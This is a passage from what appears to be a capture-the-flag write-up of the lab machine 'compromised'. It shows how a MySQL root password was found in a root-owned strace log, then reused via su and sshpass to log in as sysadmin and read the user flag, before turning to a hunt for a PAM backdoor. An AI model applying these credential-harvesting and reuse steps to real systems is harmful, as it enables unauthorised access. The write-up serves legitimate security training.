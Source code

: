 Running a script like
[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
will also highlight this file as interesting:



    [+] Readable files belonging to root and readable by me but not world readable
    -r--r----- 1 root mysql 787180 May 13  2020 /var/lib/mysql/strace-log.dat



On doing some searching through the file, there's a place where it's
recording a `mysql` run where the password is passed on the command
line:



    22227 03:11:09 execve("/usr/bin/mysql", ["mysql", "-u", "root", "--password=3*NLJE32I$Fe"], 0x55bc62467900 /* 21 vars */) = 0



### su

That password works for the user on the box, sysadmin:



    mysql@compromised:~$ su sysadmin -
    Password: 
    bash: cannot set terminal process group (-1): Inappropriate ioctl for device
    bash: no job control in this shell
    sysadmin@compromised:/var/lib/mysql$ 



And I can grab `user.txt`:



    sysadmin@compromised:~$ cat user.txt
    8fa1e68a************************



This password also works for SSH:



    root@kali# sshpass -p '3*NLJE32I$Fe' ssh sysadmin@10.10.10.207
    Last login: Wed Jan 20 18:37:38 2021 from 10.10.14.4
    sysadmin@compromised:~$



## Path #1: Shell as root via pam backdoor

### Enumeration

At this point it's clear I'm trying to follow in the footsteps of the
attacker that already compromised this box. One place to look for
persistence is in the `/lib` directory. One trick (thanks to
[Ippsec](https://twitter.com/ippsec) for this one) for looking at a
system is to print full timestamps, and look at ones that have
fractional seconds. `dpkg` (by default) only stores to the second, and
thus files with fractional seconds are all modified some other way.
